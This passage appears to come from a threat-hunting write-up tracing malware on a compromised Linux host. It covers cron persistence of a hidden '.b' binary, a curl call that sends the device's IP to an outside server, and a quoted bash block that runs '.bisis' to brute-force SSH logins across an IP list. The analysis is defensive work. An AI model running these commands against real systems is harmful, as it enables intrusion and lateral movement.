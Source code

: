**Additional Behavior:**  
A `cron` job launched `.b`, enabling it to run continuously from `/tmp`, and re-executed the `cache` file.

<p align="center">  
  <img src="https://github.com/user-attachments/assets/1437548a-13c6-4bcd-92ba-fb7275099c7b" width="700"/>
</p>

**Exfiltration Activity:**  
`Update` was executed, followed by a `curl` GET request to `http://196.251.73.38:47/save-data`, exfiltrating the device’s IP (`45.64.186.20`).

<p align="center">  
  <img src="https://github.com/user-attachments/assets/3c089219-b09e-4c85-a080-a0782ca36cca" width="700"/>
</p>

#### March 17, 2025

**Activity:**  
The `Update` file was run again, mirroring the `.b` activity from March 14.

<p align="center">  
  <img src="https://github.com/user-attachments/assets/6756dbbe-9f5d-4b97-9475-cc4cf4850e6c" width="700"/>
</p>

**Lateral Movement Behavior:**  
A bash command was run, leveraging `.bisis` to connect to a list of IPs using SSH without authentication, then executing script `x`.

```bash
bash -c "
cd /var/tmp/.update-logs
chmod +x /var/tmp/.update-logs/.bisis
ulimit -n 999999
cat /var/tmp/.update-logs/iplist | /var/tmp/.update-logs/./.bisis ssh -o /var/tmp/.update-logs/data.json --userauth none --timeout 8
/var/tmp/.update-logs/x
"
```

```bash
/var/tmp/.update-logs/./.bisis ssh \\
  -o /var/tmp/.update-logs/data.json \\
  --userauth none \\
  --timeout 8
```

<p align="center">  
  <img src="https://github.com/user-attachments/assets/067ad23e-3d6a-44b7-ae61-9cedc5a0f9a5" width="700"/>
</p>

**Recon & Lateral Movement:**  
`.bisis` was used to connect to multiple IP addresses, performing scans and brute-forcing.
